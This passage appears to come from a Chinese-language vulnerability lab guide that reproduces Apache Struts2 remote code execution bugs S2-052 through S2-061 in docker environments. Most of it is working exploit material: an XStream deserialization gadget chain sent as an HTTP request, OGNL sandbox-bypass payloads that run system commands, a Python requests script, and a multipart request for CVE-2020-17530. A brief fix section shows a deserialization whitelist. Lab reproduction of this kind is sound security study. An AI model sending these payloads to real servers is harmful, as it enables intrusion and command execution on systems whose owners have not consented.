jsonlib无法引入任意对象，而xstream在默认情况下是可以引入任意对象的（针对1.5.x以前的版本），方法就是直接通过xml的tag name指定需要实例化的类名：

```plain
<classname></classname>
//或者
<paramname class="classname"></paramname>
```

所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在Struts2库中适用的gedget。

## 漏洞复现

启动环境后，访问`http://your-ip:8080/orders.xhtml`即可看到showcase页面。由于rest-plugin会根据URI扩展名或Content-Type来判断解析方法，所以我们只需要修改orders.xhtml为orders.xml或修改Content-Type头为application/xml，即可在Body中传递XML数据。

所以，最后发送的数据包为：

```plain
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```


以上数据包成功执行的话，会在docker容器内创建文件`/tmp/success`，执行`docker-compose exec struts2 ls /tmp/`即可看到。


此外，我们还可以下载一个jspx的webshell：


还有一些更简单的利用方法，就不在此赘述了。


## 漏洞修复

struts2.5.13中，按照xstream给出的缓解措施（ http://x-stream.github.io/security.html ），增加了反序列化时的白名单：

```java
protected void addDefaultPermissions(ActionInvocation invocation, XStream stream) {
    stream.addPermission(new ExplicitTypePermission(new Class[]{invocation.getAction().getClass()}));
    if (invocation.getAction() instanceof ModelDriven) {
        stream.addPermission(new ExplicitTypePermission(new Class[]{((ModelDriven) invocation.getAction()).getModel().getClass()}));
    }
    stream.addPermission(NullPermission.NULL);
    stream.addPermission(PrimitiveTypePermission.PRIMITIVES);
    stream.addPermission(ArrayTypePermission.ARRAYS);
    stream.addPermission(CollectionTypePermission.COLLECTIONS);
    stream.addPermission(new ExplicitTypePermission(new Class[]{Date.class}));
}
```


但此时可能会影响以前代码的业务逻辑，所以谨慎升级，也没有特别好的办法，就是逐一排除老代码，去掉不在白名单中的类。

------

# S2-053 远程代码执行漏洞

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

漏洞详情:

- http://struts.apache.org/docs/s2-053.html
- https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e


## 测试环境搭建

```plain
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令：

```plain
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```


说明：有的同学说无法复现漏洞，经过我的测试，我发现上述Payload末尾的**换行**不能掉（也就是说payload后面必须跟一个换行，虽然我也不知道为什么），再发送即可成功。

------

# Struts2 S2-057远程代码执行漏洞（CVE-2018-11776）

受影响的版本：<=Struts 2.3.34，Struts 2.5.16	

安装程序

启动Struts 2.3.34环境：

环境启动后，访问`http://your-ip:8080/showcase/`您将看到Struts2测试页面。

## EXP

S2-057要求以下条件：

-`alwaysSelecttFullNamespace为true`-操作元素未设置命名空间属性，或者使用了通配符。

名称空间将由用户从uri传递并解析为OGNL表达式，最终导致远程代码执行漏洞。

 Payload:  

```plain
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```



可以看出，233*233的结果已返回到Location标头中。

使用S2-057漏洞分析和POC中的有效载荷：

```plain
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

 Result:  


------

# Struts2 S2-059 远程代码执行漏洞(CVE-2019-0230)


Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

影响版本: Struts 2.0.0 - Struts 2.5.20

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 漏洞环境

启动 Struts 2.5.16环境:

```plain
docker-compose up -d
```

启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现233*233的结果被解析到了id属性中：


《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令。

通过如下Python脚本复现漏洞：

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，进入容器发现`touch /tmp/success`已成功执行。


------

# Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）

S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强`OGNL`表达式沙盒，而S2-061绕过了该沙盒。该漏洞影响版本范围是`Struts 2.0.0`到`Struts 2.5.25`。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## 漏洞环境

执行如下命令启动一个Struts2 2.5.25版本环境：

```plain
docker-compose up -d
```

环境启动后，访问`http://target-ip:8080/index.action`查看到首页。

## 漏洞复现

发送如下数据包，即可执行`id`命令：

```plain
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

可见，`id`命令返回结果将直接显示在页面中：


